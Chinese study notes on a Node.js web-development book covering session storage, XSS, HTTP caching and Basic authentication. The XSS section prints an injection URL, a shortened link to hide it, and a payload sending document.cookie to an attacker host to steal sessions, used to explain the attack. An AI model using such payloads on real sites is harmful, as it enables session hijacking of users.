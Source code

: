 2. 第二种：通过查询字符串来实现浏览器端和服务器端数据的对应

在上面的示例代码中，我们都将Session数据直接存在了变量sessions中，它位于内存中，然而在第五章的内存控制部分，我们分析了为什么Node会存在内存限制，这里将数据存放在内存中将会带来极大的隐患，如果用户增多，我们很可能就接触到了内存限制的上限，并且内存中的数据量加大，必然会因此垃圾回收的频繁扫描，引起性能问题。  
另一个问题则是我们可能为了利用多核CPU而启动多个进程，用户请求的连接将可能随意分配到各个进程中，Node的进程与进程之间是不能直接共享内存的，用户的Session可能会有引起错乱。  

为了解决性能问题和Session数据无法跨进程共享的问题，常见的方案是将session集中化，将原本可能分散在多个进程里的数据，统一转移到集中的数据存储中，目前常用的工具是Redis、Memcached等。通过这些高效地缓存，Node进程无需在内部维护数据对象，垃圾回收问题和内存限制问题都可以迎刃而解，并且这些告诉缓存设计的缓存过期策略更合理高效，比在Node中自行设计缓存策略更好。

尽管采用专门的缓存服务回避直接在内存中访问慢，但其影响小之又小，带来的好处远远大于直接在Node中存储数据。

Session安全：通过私钥加密进行签名

##### 安全问题
XSS漏洞  
全称Cross-Site Scripting 跨站脚本攻击。XSS漏洞会让本地脚本执行，它的形成原因多数是用户的输入没有被转义，而被直接执行，比如某个网站的前端脚本，它会将URL hash中的值设置到页面中，以实现某种逻辑，如下所示
```js
$('#box').html(location.hash.replace('#', ''))
```
攻击者在发现这里的漏洞之后，构造成了这样的URL
```js
http://a.com/pathname#<script src="http://b.com/c.js"></script>
```
为了不让受害者发现这端URL中的猫腻，它可能会通过URL压缩成一个短网址，如下
```js
http://t.cn/fasdfj
// 或者再次压缩
http://url.cn/fasdfb
```
然后将最终的短网址发给某个登录的在线用户，这样一来。这端hash中的脚本将会在这个用户的浏览器中执行，而这段脚本中的内容如下：
```js
location.href = 'http://c.com/?' + document.cookie
```
这段代码将该用户的Cookie提交给了c.com站点，这个站点就是攻击者的服务器，他也就能拿到该用户的Session口令，然后他在客户端那种用这个口令伪造Cookie，从而实现了伪装用户的身份，如果该用户是网站管理员，就可能造成极大的危害

#### 8.1.6 缓存
通常来说，POST, DELETE, PUT这类带行为性的请求操作一般不做任何缓存，大多数缓存值应用在GET请求中。一般可以通过添加`Expires Cache-Control Etags`来实现缓存

| 服务端 | 客户端 |
| ---    |  ---  |
| Last-Modefied | If-Modefied-Since |
| Etag | If-None-Match |

#### 8.1.7 Basic认证
Basic认证是当客户端与服务器端进行请求时，允许通过用户名和密码实现的一种身份认证方式，这里简要介绍它的原理和它在服务端通过Node处理的流程。  
如果一个页面需要Basic认证，它会检查请求报文中的Authrization字段的内容，该字段的值由认证方式和加密值构成...   
不过Basic认证有很多缺点。

### 8.2 数据上传
上述的内容基本都集中在HTTP请求报文头中，适用于GET请求和大多数其他请求。头部报文中的内容已经能够让服务器端进行大多数业务逻辑操作了，但是单纯的头部报文无法携带大量的数据，在业务中，我们往往需要接收一些数据，比如表单提交，文件提交，JSON上传，XML上传等。 

